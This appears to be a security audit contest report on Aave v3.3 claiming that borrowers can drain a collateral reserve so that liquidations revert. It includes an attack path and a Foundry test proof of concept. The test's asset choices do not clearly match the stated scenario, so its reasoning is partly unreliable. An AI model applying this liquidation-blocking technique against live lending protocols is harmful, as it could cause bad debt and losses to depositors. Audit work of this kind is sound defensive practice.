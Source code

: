 Mini Indigo Yak

High

# Borrowers are able to DOS liquidations

### Summary

If user borrows X and places collateral Y then other user can borrow the whole collateral Y by placing collateral C. When liquidator comes to liquidate the initial user there won't be enough collateral Y and liquidation will revert.

https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/protocol/pool/Pool.sol#L223

### Root Cause

Borrowers can borrow the whole collateral and makes liquidations revert because liquidators will not be able to receive the collateral of the borrower.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. User1: supply collateral 1000 ETH
2. User1: borrow X
3. User1 becomes liquidetable
4. User2 borrows 1000 ETH and places Y as collateral
5. Liquidator call will revert

### Impact

Protocol can get bad debt by liquidations not happening on time.

### PoC

Paste this test in Pool.liquidations.t.sol:
```solidity
  function test_liquidate_when_there_isnt_enough_collateral() public {
    vm.startPrank(address(0x155));
    deal(tokenList.weth, address(0x155), 10_000e18);
    IERC20(tokenList.weth).approve(address(contracts.poolProxy), 10_000e18);

    contracts.poolProxy.supply(tokenList.weth, 10_000e18, address(0x155), 0);
    vm.stopPrank();

    uint256 amount = 2000e6;
    uint256 borrowAmount = 1620e6;
    vm.startPrank(alice);

    contracts.poolProxy.supply(tokenList.usdx, amount, alice, 0);

    contracts.poolProxy.borrow(tokenList.usdx, borrowAmount, 2, 0, alice);
    vm.stopPrank();

    vm.warp(block.timestamp + 20000 days);

    vm.prank(address(0x155));
    contracts.poolProxy.borrow(tokenList.usdx, 100_000e6, 2, 0, address(0x155));

    LiquidationInput memory params = _loadLiquidationInput(
      alice,
      tokenList.usdx,
      tokenList.usdx,
      UINT256_MAX,
      tokenList.wbtc,
      0
    );

    uint256 liquidatorBalanceBefore;
    if (params.receiveAToken) {
      (address atoken, , ) = contracts.protocolDataProvider.getReserveTokensAddresses(
        params.collateralAsset
      );
      liquidatorBalanceBefore = IERC20(atoken).balanceOf(bob);
    } else {
      liquidatorBalanceBefore = IERC20(params.collateralAsset).balanceOf(bob);
    }

    // vm.expectEmit(address(contracts.poolProxy));
    emit LiquidationLogic.LiquidationCall(
      params.collateralAsset,
      params.debtAsset,
      params.user,
      params.actualDebtToLiquidate,
      params.actualCollateralToLiquidate,
      bob,
      params.receiveAToken
    );

    // Liquidate
    vm.prank(bob);
    contracts.poolProxy.liquidationCall(
      params.collateralAsset,
      params.debtAsset,
      params.user,
      params.liquidationAmountInput,
      params.receiveAToken
    );
  }
```

### Mitigation

Consider limiting the amounts users can borrow especially amounts that are used as collateral.